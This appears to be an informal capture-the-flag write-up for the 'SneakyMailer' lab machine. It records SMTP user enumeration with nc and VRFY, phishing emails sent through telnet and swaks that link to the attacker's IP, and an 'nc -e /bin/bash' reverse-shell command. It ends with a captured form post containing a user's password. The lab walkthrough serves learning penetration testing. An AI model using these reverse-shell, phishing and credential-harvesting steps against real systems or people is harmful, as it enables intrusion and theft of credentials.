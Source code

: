 add sneakycorp.htb to /etc/hosts with its ip address

verify emails exist using the port using:

```
nc 10.10.10.197 25
```
and then

```
vrfy laelgreer@sneakymailer.htb

```

try smtp enumeration using this: https://www.hackingarticles.in/4-ways-smtp-enumeration/ and fail
try sending mails using this syntax and try to get a reverse shell using ```nc -e /bin/bash yourip port (nc -vlp on the attacker side) ```

reverse shell doesnt work but putting nc on port 80 would make it a simple http request, and u can send it via browser and try sending it mails,
test it on ur local by oopening a browser and typing http://localhost


for sending emails use 
https://www.wikihow.com/Send-Email-Using-Telnet


tried the following and failed
```
nc 10.10.10.197 25
220 debian ESMTP Postfix (Debian/GNU)
MAIL FROM: laelgreer@sneakymailer.htb
250 2.1.0 Ok
RCPT TO: glorialittle@sneakymailer.htb
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
http://10.10.14.117

<CR><LF>.<CR><LF>

.
250 2.0.0 Ok: queued as E99702470F
quit
221 2.0.0 Bye
```


to see all available commnad use ehlo command at port 25
```

ehlo
501 Syntax: EHLO hostname
ehlo 10.10.10.197
250-debian
250-PIPELINING
250-SIZE 10240000
250-VRFY
250-ETRN
250-STARTTLS
250-ENHANCEDSTATUSCODES
250-8BITMIME
250-DSN
250-SMTPUTF8
250 CHUNKING
```


https://linux.die.net/man/1/swaks
after that try using swaks and pray to science that all will be good.

using swaks like
```
swaks -to paulbyrd@sneakymailer.htb -server 10.10.10.197 -from glorialittle@sneakymailer.htb -body "http://10.10.14.117/"
```
didnt work the out put was crap


we finally created a custom shel script as in mailer.sh

run that with the cla as cewlmails.txt and  listen on port 80 with nc using ```nc -vlp 80```


once the script finishes u will get the following on the listener ``` firstName=Paul&lastName=Byrd&email=paulbyrd%40sneakymailer.htb&password=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt&rpassword=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt```

